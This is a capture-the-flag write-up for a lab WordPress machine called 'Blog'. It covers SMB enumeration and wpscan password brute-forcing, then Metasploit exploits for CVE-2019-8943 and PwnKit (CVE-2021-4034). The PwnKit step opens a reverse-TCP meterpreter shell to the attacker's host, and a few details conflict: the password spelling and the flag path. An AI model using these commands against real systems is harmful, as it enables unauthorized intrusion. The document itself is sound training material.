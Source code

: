 # Blog
Billy Joel made a Wordpress blog!

## Resolution

From the name and description of the room, we know that we're dealing with a wordpress application. Nevertheless, we scan for all running services on the machine.

```
$ sudo nmap -sV -sC <machine_ip> -Pn -n --disable-arp-ping

<...snip...>
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: blog.thm, BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-02-24T17:39:32
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-02-24T17:39:33+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

```

Exposed services are: an ssh agent, a web app running the wordpress blog, and an SMB server. The information on the running SMB service revealed by the default nmap scripts may be useful in the future.

Examining the blog's home page (mom's note and comments), it looks like Joel is a not experimented with Wordpress and most likely default configurations are still there. Additionally, we know that Wordpress login is vulnerable to brute force attacks.

To validate this idea, we go to the login page (accessible from the "Log in" button in the bottom of the page or alternatively at `http://blog.thm/wp-login.php`). We enter whatever credentials there (e.g. admin admin), the response is an "invalid username" error message.
Notice that when we hover (or click) on a user, we are able to get their username where the redirection link of a user's page is of the form `http://blog.thm/author/<username>`.
The username of Billy Joel is `bjoel`.
Entering the username in the login page confirms the ability to brute force the login.

I tried to brute foce using `hydra` and the rockyou wordlist but it didn't work out so I started thinking of other possibilities.

Let's connect to the SMB server and see if we can get any useful information:
```
# List available shares on the server
$ smbclient -U guest -L <ip_addr>

Password for [WORKGROUP\guest]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BLOG
```
```
# Connect to BillySMB share
$ smbclient -U guest \\\\BLOG\\BillySMB
   
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 18:17:05 2020
  ..                                  D        0  Tue May 26 17:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 18:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 18:13:45 2020
  check-this.png                      N     3082  Tue May 26 18:13:43 2020

                15413192 blocks of size 1024. 9790352 blocks available
```

There is an interesting file called `check-this.png`, we can download it using the `get` command:
```
smb: \> get check-this.png

getting file \check-this.png of size 3082 as check-this.png (18.2 KiloBytes/sec) (average 18.2 KiloBytes/sec)
```

The picture contais a QR code, which leads to a YouTube music video of Billy Joel (Just discovered this is a name of a famous musician).

Checking the other files might lead somewhere.

```
$ stegseek Alice-White-Rabbit.jpg   
                      
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "rabbit_hole.txt".
[i] Extracting to "Alice-White-Rabbit.jpg.out".

$ cat Alice-White-Rabbit.jpg.out

You've found yourself in a rabbit hole, friend.
```

Nothing useful. Straight into the rabbit hole :/

Back to our wordpress application, I started looking for common vulnerabilities of that specific version and also why `hydra` was giving wrong passwords as a match. Long story short, `hydra` is not always a good option (not in this case), and we shuldn't depend 100% on it. Additionaly, this wordpress version presents a path traversal vulnerability (CVE-2019-8943, CVE-2019-8942) that can be exploited using Metasploit once we have the credentials of a user of at least an author privilege.

We have only two users in the blog. This can be verified by navigating to:
```
http://blog.thm/wp-json/wp/v2/users
```

Let's try and brute force login passwords of bjoel and kwheel but this time using `wpscan` (a wordpress security scanner). We are able to find the password of kwheel:
```
$ wpscan --url blog.thm -P /usr/share/wordlists/rockyou.txt -U "kwheel"

<...snip...>
[+] Performing password attack on Xmlrpc against 1 user/s
Trying kwheel / morgan1 Time: 00:01:03 <                       > (2125 / 14344392)  0.01%  ETA: ??:??:??
[SUCCESS] - kwheel / cutiepie1                                                                
<...snip...>
```

Now we move to metasploit for further exploitation.
```
msf6 > use exploit/multi/http/wp_crop_rce

msf6 exploit(multi/http/wp_crop_rce) > set username kwheel

msf6 exploit(multi/http/wp_crop_rce) > set password cutipie1

msf6 exploit(multi/http/wp_crop_rce) > set rhosts blog.thm

msf6 exploit(multi/http/wp_crop_rce) > set lhost <your_ip>

msf6 exploit(multi/http/wp_crop_rce) > exploit

```

Got access to the machine and now we gotta look for the files.
First thing, we check the users on the machine. We find a `user.txt` file in bjoel home directory, but:
```
meterpreter > cat home/bjoel/user.txt

You won't find what you're looking for here.
TRY HARDER
```

For the user flag, I made use of the hint which is of the format `/*****/***`. There is one unique path of that format on the machine which is `/media/usb`. And this was the right answer.

To Access the content of that folder, we need higher priviliges.

Executing the `linPEAS.sh` script hints about many exploitation vector. I tried exploiting some of them unsuccessfully before what did actually work: **pwnkit**
```
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

We send our current session to the background and launch the pwnkit exploit. Now we can access the user flag at `/media/tmp/user.txt` and the root flag at `/root/root.txt`
```
meterpreter > bg
[*] Backgrounding session 1...

msf6 exploit(multi/http/wp_crop_rce) > use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set session 1
session => 1
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > set lhost <your_ip>
lhost => <your_ip>
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > run

[*] Started reverse TCP handler on <your_ip>:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.pcogeqgxi
[+] The target is vulnerable.
[*] Writing '/tmp/.tsqqhfteilu/jcilqimaxeqh/jcilqimaxeqh.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.tsqqhfteilu
[*] Sending stage (3045380 bytes) to <machine_ip>
[+] Deleted /tmp/.tsqqhfteilu/jcilqimaxeqh/jcilqimaxeqh.so
[+] Deleted /tmp/.tsqqhfteilu/.wlhjnbz
[+] Deleted /tmp/.tsqqhfteilu
[*] Meterpreter session 2 opened (<your_ip>:4444 -> <machine_ip>:52260) at 2024-02-26 14:09:43 +0000

meterpreter >
```


